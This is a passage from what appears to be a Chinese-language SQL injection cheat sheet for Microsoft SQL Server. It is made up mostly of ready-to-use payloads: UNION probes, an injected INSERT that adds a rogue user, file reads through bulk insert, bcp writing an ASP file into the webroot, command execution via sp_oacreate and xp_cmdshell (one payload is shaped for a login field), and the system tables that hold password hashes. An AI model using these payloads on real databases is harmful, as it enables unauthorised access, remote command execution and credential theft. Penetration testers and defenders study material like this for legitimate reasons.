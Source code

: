 - `11223344) UNION SELECT 1,’2’,3,NULL WHERE 1=2 –-`
  报错了，说明第三列不是数字类型，报错信息：`Microsoft OLE DB Provider for SQL Server error '80040e07' Explicit conversion from data type int to image is not allowed.`

在使用 union 时，参数有可能会在函数 `convert()` 中，所以要先闭合 `convert()` 函数然后再进行 union

#### Insert 例子 (MSO+) 

> '; insert into users values( 1, 'hax0r', 'coolpass', 9 )/*

#### 功能函数

**@@version** (MS) 

这个函数可以在任何位置，不需要提供任何表名，还可以在插入或者更新语句中使用。

> INSERT INTO members(id, user, pass) VALUES(1, ''+SUBSTRING(@@version,1,10) ,10)

##### Bulk insert(S) 

将文件内容插入表中，然后读取表的内容，从而实现文件内容的读取，比如读取 iis 6.0 中的元文件 `%systemroot%\system32\inetsrv\MetaBase.xml`

1、创建一个表 foo( line varchar(8000) ) 

2、从文件 'c:\inetpub\wwwroot\login.asp' 中读取内容并插入表 foo 中

3、删除临时表 foo，重复读取其他的文件

##### BCP (S) 

将数据库中的内容写入文件中

> bcp "SELECT * FROM test..foo" queryout c:\inetpub\wwwroot\runcommand.asp -c -Slocalhost -Usa -Pfoobar 

##### 在 SQL Server 中使用 VBS, WSH 脚本 (S) 

因为 SQL Server 支持 ActiveX，所以你可以使用 VBS, WSH 脚本

> declare @o int
>
> exec sp_oacreate 'wscript.shell', @o out 
>
> exec sp_oamethod @o, 'run', NULL, 'notepad.exe'
>
> Username: '; declare @o int exec sp_oacreate 'wscript.shell', @o out exec sp_oamethod @o, 'run', NULL, 'notepad.exe' -- 

##### 使用 xp_cmdshell 执行系统命令 (S) 

在 *SQL Server 2005 中时默认禁掉的，如果有管理员权限可以开启。

> EXEC master.dbo.xp_cmdshell 'cmd.exe dir c:'

##### 在SQL Server 中的一些关键表(S) 

- 错误信息：`master..sysmessages`
- 连接的服务器：`master..sysservers`
- 密码字段（2000 和 2005 的密码哈希是可以破解的）SQL Server 2000:`masters..sysxlogins` ，SQL Server 2005 : `sys.sql_logins`
